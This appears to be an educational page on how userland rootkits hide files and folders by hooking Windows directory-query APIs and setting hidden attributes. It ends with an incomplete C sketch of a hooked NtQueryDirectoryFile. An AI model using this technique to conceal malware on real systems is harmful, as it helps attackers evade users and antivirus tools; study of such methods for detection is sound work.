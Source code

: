 Hiding files and folders is a fundamental capability of userland rootkits. These malicious tools often employ techniques like file system filter drivers or hooking file system-related APIs to manipulate file visibility. By intercepting calls to functions like NtQueryDirectoryFile and NtQueryDirectoryFileEx, rootkits can filter out files and folders associated with their presence, rendering them invisible to both users and antivirus software.

Rootkits may also employ methods to manipulate file attributes, effectively marking them as hidden or system files. This not only hides the files from the user but also makes them less likely to be scanned by security software.

Files and folders are the primary storage units in any computer system. Malicious entities, especially rootkits, often need to hide their presence to evade detection. They achieve this by manipulating the visibility of files and folders.

Techniques:

API Hooking:

Rootkits can intercept calls to file system-related APIs to manipulate their results. By hooking functions like NtQueryDirectoryFile and NtQueryDirectoryFileEx, they can filter out or modify the results, effectively hiding files and folders.

Code Example:

```
NTSTATUS Hooked_NtQueryDirectoryFile(

    HANDLE FileHandle,

    HANDLE Event,

    PIO_APC_ROUTINE ApcRoutine,

    PVOID ApcContext,

    PIO_STATUS_BLOCK IoStatusBlock,

    PVOID FileInformation,

    ULONG Length,

    FILE_INFORMATION_CLASS FileInformationClass,

    BOOLEAN ReturnSingleEntry,

    PUNICODE_STRING FileName,

    BOOLEAN RestartScan

) {

    NTSTATUS status = Original_NtQueryDirectoryFile(FileHandle, Event, ApcRoutine, ApcContext, IoStatusBlock, FileInformation, Length, FileInformationClass, ReturnSingleEntry, FileName, RestartScan);

    if (NT_SUCCESS(status)) {

        // Check if the file or folder is one we want to hide

        if (IsMaliciousFileOrFolder(FileInformation)) {

            // Modify the results to exclude the malicious file/folder

            FilterOutFileOrFolder(FileInformation);

        }

    }
```